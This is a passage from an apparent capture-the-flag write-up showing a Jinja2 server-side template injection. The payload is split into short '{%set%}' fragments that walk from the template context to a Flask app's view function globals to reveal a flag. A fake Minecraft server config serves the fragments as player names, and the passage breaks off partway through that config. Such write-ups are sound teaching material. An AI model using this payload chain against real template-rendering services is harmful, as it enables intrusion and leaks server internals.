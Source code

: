 Our users:
```
{%set a=self%}
{%set b='_Templat'%}
{%set c='eReferen'%}
{%set d='ce__cont'%}
{%set e='ext'%}
```

Now we can store our ``_TemplateReference__context`` with this user: ``{%set f=a[b+c+d+e]%}`` because in jinja2 it's possible to access an object property with object[property].

We'll follow this way until we have our full payload.

Our users:
```
{%set a=self%}
{%set b='_Templat'%}
{%set c='eReferen'%}
{%set d='ce__cont'%}
{%set e='ext'%}
{%set f=a[b+c+d+e]%}
{%set g='environm'%}
{%set h='ent'%}
{%set i=f[g+h]%}
{%set j=i.app%}
{%set k='view_f'%}
{%set l='unctions'%}
{%set m=j[k+l] %}
{%set n=m.flag%}
{%set o='__global'%}
{%set p='s__'%}
{{n[o+p]}}
```

We set all our variables and finally display the flag with ``{{n[o+p]}}``

## Put users on fake MC server

Now we are going to edit our ``config`` object in ``index.js``, here is our new ``config``:
```js
const config ={
    "version": {
        "name": "derp",
        "protocol": 47
    },
    "players": {
        "max": 100,
        "online": 4,
        "sample": [
            {
                "name": "{%set a=self%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d225"
            },
            {
                "name": "{%set b='_Templat'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d226"
            },
            {
                "name": "{%set c='eReferen'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d227"
            },
            {
                "name": "{%set d='ce__cont'%}",
                "id": "4566e69f-c907-48ee-8d71-d7ba5aa00d228"
            },
```